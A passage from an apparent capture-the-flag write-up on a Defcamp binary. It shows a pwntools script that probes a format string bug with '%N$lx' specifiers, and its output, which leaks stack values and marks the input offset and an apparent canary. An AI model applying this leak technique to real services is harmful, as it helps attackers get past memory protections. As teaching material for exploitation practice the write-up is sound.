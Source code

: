 ### Exploiting the binary

So, let's make a script to find the offset for the input on stack, who knows we might be able to get something of interest?

```python3
from pwn import *

for i in range(2,20):
	p = process("./q3")
	p.sendline("AAAA %{}$lx".format(i)) # will print the stack data in hex format
	p.recvline() # Hello
	print i,p.recvline()
	p.close()
```
Let's run it:-

```asm
robin@oracle:~/CTFs/Defcamp$ python find_off.py 
[+] Starting local process './q3': pid 8323
2 AAAA 7ffff7dd18c0

[*] Stopped process './q3' (pid 8323)
[+] Starting local process './q3': pid 8325
3 AAAA 7ffff7af4154

[*] Stopped process './q3' (pid 8325)
[+] Starting local process './q3': pid 8327
4 AAAA 7ffff7fd24c0

[*] Stopped process './q3' (pid 8327)
[+] Starting local process './q3': pid 8329
5 AAAA 0

[*] Stopped process './q3' (pid 8329)
[+] Starting local process './q3': pid 8331
6 AAAA 7ffff7de59a0

[*] Stopped process './q3' (pid 8331)
[+] Starting local process './q3': pid 8333
7 AAAA 7ffff7dcfa00

[*] Stopped process './q3' (pid 8333)
[+] Starting local process './q3': pid 8335
8 AAAA 2438252041414141                                        <--- Offset 

[*] Stopped process './q3' (pid 8335)
[+] Starting local process './q3': pid 8337
9 AAAA a786c

[*] Stopped process './q3' (pid 8337)
[+] Starting local process './q3': pid 8339
10 AAAA 7fffffffde80

[*] Stopped process './q3' (pid 8339)
[+] Starting local process './q3': pid 8341
11 AAAA a17e6a7c1c53c000                                       <--- This is of interest

[*] Stopped process './q3' (pid 8341)
[+] Starting local process './q3': pid 8343
12 AAAA 555555554830

[*] Stopped process './q3' (pid 8343)
[+] Starting local process './q3': pid 8345
13 AAAA 7ffff7a05b97
```